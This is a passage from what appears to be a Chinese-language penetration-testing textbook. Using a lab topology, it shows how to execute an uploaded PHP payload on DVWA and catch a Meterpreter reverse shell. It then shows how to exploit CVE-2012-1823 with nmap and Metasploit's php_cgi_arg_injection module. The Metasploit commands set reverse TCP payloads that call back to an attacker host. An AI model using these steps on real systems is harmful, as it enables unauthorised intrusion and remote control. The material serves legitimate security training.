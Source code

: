 9.  复制文件位置，即`hackable/uploads/img.php`，并将其粘贴到 URL 中以执行有效负载（`img.php`）。以下是预期的 URL：

```
192.168.56.101/DVWA/ hackable/uploads/img.php
```

点击*进入*执行有效载荷。

10.  在 Kali Linux 上，使用以下命令加载 Metasploit：

```
service postgresql start msfconsole
```

11.  在 Metasploit 中启用`multi/handler`模块，设置反向 TCP 有效负载，并使用以下命令执行攻击：

![](assets/2bb249a6-8aa5-434d-8229-a5734cd83289.png)

请务必检查 Kali Linux 机器的 IP 地址，并相应调整`LHOST`参数。

12.  在服务器上执行了`img.php`有效负载并在 Metasploit 上启用了`multi/handler`后，我们能够在攻击者机器上收到一个反向 shell，如以下屏幕截图所示：

![](assets/ed29642c-7be8-44cb-b0ab-08887b8d84f5.png)

使用`meterpreter`shell，您现在可以对受损系统执行进一步的操作。

在下一节中，我们将演示如何利用代码执行漏洞。

# 利用代码执行漏洞

当设备易受代码执行攻击时，允许攻击者或渗透测试人员在目标服务器上远程执行代码。此外，渗透测试仪将能够检索存储在目标上的源代码。

要完成此练习，我们将使用以下拓扑：

![](assets/739a76ec-d61e-429a-82ac-79a80fadd0aa.png)

要开始利用代码执行漏洞，请执行以下步骤：

1.  我们将尝试发现目标是否易受**CVE-2012-1823**攻击。要发现目标是否易受攻击，请在`nmap`中使用以下命令：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回表明目标上存在漏洞的结果。但是，这不应阻止您确定目标是否易受攻击。

2.  接下来，在**Metasploit**中，使用`search`命令找到合适的漏洞利用模块，帮助我们利用目标上的漏洞：

![](assets/89a269bf-78d5-495a-93e8-7db7dd151d1e.png)

3.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

4.  此外，以下命令允许您使用适当的有效负载，在利用漏洞和设置本地主机 IP 地址时建立远程 shell：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```
